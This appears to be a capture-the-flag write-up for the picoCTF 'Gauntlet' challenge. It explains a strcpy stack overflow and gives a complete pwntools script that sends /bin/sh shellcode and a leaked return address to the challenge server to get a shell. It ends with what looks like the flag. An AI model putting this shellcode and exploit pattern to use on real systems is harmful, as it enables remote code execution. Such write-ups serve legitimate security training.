


> Okay, time for a challenge. gauntlet `nc mercury.picoctf.net 11022`



My first idea was to do the same thing as Gauntlet 0. I first had to see if there was similar code and based on the GDB, there was, however I missed something.

Let's open it up in Ghidra. 



Those are notes I took down immediately on the code. Due to only 104 bytes are taken in at local_78, therefore, our buffer isnt at malloc, but at the `strcpy`.

What ever 1000 bytes are taken in, as long as not flushed, it will allow this buffer overflow. It is a strcpy shellcode attack.

Using this shell-storm for our shellcode, I chose a [Linux 64x /bin/sh exec attack](http://shell-storm.org/shellcode/files/shellcode-603.php).

```python
from pwn import *

p = remote("mercury.picoctf.net", 11022)

pwn = b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
pwn = pwn.ljust(120, b"A") # Caps string at 120 chars and adds rest to right side for offset
print(pwn)
#b'H1\xd2H\xbb//bin/shH\xc1\xeb\x08SH\x89\xe7PWH\x89\xe6\xb0;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

out = p.recv().decode('utf-8')
out = int(out, 16)
pwn += p64(out)

p.sendline('z') # This will get us past the first flush
p.recv()
p.sendline(pwn)
p.interactive()
```

> a6a8ff80a5f639a05c84b5b518384c04